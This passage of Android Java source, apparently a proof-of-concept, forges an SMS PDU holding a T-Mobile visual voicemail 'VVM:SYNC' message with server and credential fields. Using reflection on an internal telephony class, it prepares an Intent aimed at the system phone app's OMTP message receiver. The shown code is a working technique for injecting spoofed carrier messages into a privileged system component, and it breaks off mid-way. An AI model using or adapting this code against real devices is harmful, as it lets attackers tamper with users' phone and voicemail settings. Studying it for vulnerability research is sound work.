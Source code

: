 ```
            }
        });

        syncButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View view) {
            	//VVM:SYNC消息
                createFakeSms(MainActivity.this, "100000", "//VVM:SYNC:ev=NM;c=1;t=v;s=12345678;dt=09/16/2016 10:53 -0400;l=7;srv=vvm.tmomail.net;ipt=143;u=0000000000@vms.eng.t-mobile.com;pw=BOQ8CAzzNcu;");
            }
        });
    }

	//构造短信消息
    private static void createFakeSms(Context context, String sender,
                                      String body) {
        byte[] pdu = null;
        byte[] scBytes = PhoneNumberUtils
                .networkPortionToCalledPartyBCD("0000000000");
        byte[] senderBytes = PhoneNumberUtils
                .networkPortionToCalledPartyBCD(sender);
        int lsmcs = scBytes.length;
        byte[] dateBytes = new byte[7];
        Calendar calendar = new GregorianCalendar();
        dateBytes[0] = reverseByte((byte) (calendar.get(Calendar.YEAR)));
        dateBytes[1] = reverseByte((byte) (calendar.get(Calendar.MONTH) + 1));
        dateBytes[2] = reverseByte((byte) (calendar.get(Calendar.DAY_OF_MONTH)));
        dateBytes[3] = reverseByte((byte) (calendar.get(Calendar.HOUR_OF_DAY)));
        dateBytes[4] = reverseByte((byte) (calendar.get(Calendar.MINUTE)));
        dateBytes[5] = reverseByte((byte) (calendar.get(Calendar.SECOND)));
        dateBytes[6] = reverseByte((byte) ((calendar.get(Calendar.ZONE_OFFSET) + calendar
                .get(Calendar.DST_OFFSET)) / (60 * 1000 * 15)));
        try {
            ByteArrayOutputStream bo = new ByteArrayOutputStream();
            bo.write(lsmcs);
            bo.write(scBytes);
            bo.write(0x04);
            bo.write((byte) sender.length());
            bo.write(senderBytes);
            bo.write(0x00);
            bo.write(0x00); // encoding: 0 for default 7bit
            bo.write(dateBytes);
            try {
                String sReflectedClassName = "com.android.internal.telephony.GsmAlphabet";
                Class cReflectedNFCExtras = Class.forName(sReflectedClassName);
                Method stringToGsm7BitPacked = cReflectedNFCExtras.getMethod(
                        "stringToGsm7BitPacked", new Class[] { String.class });
                stringToGsm7BitPacked.setAccessible(true);
                byte[] bodybytes = (byte[]) stringToGsm7BitPacked.invoke(null,
                        body);
                bo.write(bodybytes);
            } catch (Exception e) {
            }

            pdu = bo.toByteArray();
        } catch (IOException e) {
        }
		//构造待发送的intent
        Intent intent = new Intent();
        intent.setClassName("com.android.phone",
                "com.android.phone.vvm.omtp.sms.OmtpMessageReceiver");
        intent.putExtra("phone",0);
```